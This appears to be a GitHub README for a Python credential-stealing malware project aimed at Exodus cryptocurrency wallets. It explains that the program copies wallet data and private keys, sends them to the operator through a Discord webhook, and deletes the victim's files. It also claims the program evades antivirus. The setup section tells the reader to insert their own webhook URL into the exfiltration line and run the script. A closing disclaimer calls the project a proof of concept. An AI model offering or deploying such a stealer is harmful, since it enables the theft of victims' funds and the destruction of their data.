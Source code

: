 # Exodus Wallet Stealer

Working Exodus Wallet Stealer to steal Exodus wallets, private keys, public keys and crypto in general, the stealer downloads a backup of the exodus app data and then sends it to you via a discord webhook, once you recieve the webhook message the files are deleted so the wallet can no longer be accessed by the user, you can then download the files and drag and drop them into your appdata and reload your exodus.

After doing this you will have full access to all there stuff including private keys, you could then send and recieve crypto through that account.

The program once compiled properly is not detected by Anti-Virus at all and this makes it very dangerous malware.

## Video
https://user-images.githubusercontent.com/122122838/228079770-cb0463dc-4afe-4e29-89d5-148389b54730.mp4

## Setup
Download the project files then follow the instructions below.

Open `stealer.py` and change this line:
```bash
Discord_Webhook_Client.send_file("WEBHOOK")
```
Remove **WEBHOOK** and add your Discord webhook URL.
    
## Run the program
You can run the stealer by doing the following command:
```bash
python stealer.py
OR 
python3 stealer.py
```

I recommend that you compile this if you wanted to actually use it and this is what cybercrimals would do however I am not gonna show how you can do this as this project is just a proof of concept and supposed to help fight against malware not make it spread more.

## NOTE:
This malware is supposed to explain and show how the malware would operate in a manor that allows the user to run it themselves without causing danage, I do not condone spreading or compiling with the intention to spread this malware and will not and have not shown how to compile it properly and have made it so it is not a complete version of malware. 

